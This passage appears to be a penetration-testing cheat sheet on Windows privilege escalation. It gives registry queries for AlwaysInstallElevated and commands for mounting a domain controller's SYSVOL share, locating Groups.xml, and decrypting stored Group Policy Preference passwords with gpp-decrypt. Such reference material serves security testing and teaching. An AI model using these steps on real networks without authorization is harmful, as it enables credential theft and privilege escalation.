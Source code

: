 ## AlwaysInstallElevated

```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```

[http://toshellandback.com/2015/11/24/ms-priv-esc/](http://toshellandback.com/2015/11/24/ms-priv-esc/)

## Group Policy Preference

If the machine belongs to a domain and your user has access to `System Volume Information` there might be some sensitive files there.

First we need to map/mount that drive. In order to do that we need to know the IP-address of the domain controller. We can just look in the environment-variables

```
# Output environment-variables
set

# Look for the following:
LOGONSERVER=\\NAMEOFSERVER
USERDNSDOMAIN=WHATEVER.LOCAL

# Look up ip-addres
nslookup nameofserver.whatever.local

# It will output something like this
Address:  192.168.1.101

# Now we mount it
net use z: \\192.168.1.101\SYSVOL

# And enter it
z:

# Now we search for the groups.xml file
dir Groups.xml /s
```

If we find the file with a password in it, we can decrypt it like this in Kali

```
gpp-decrypt encryptedpassword
```

```
Services\Services.xml: Element-Specific Attributes
ScheduledTasks\ScheduledTasks.xml: Task Inner Element, TaskV2 Inner Element, ImmediateTaskV2 Inner Element
Printers\Printers.xml: SharedPrinter Element
Drives\Drives.xml: Element-Specific Attributes
DataSources\DataSources.xml: Element-Specific Attributes
```
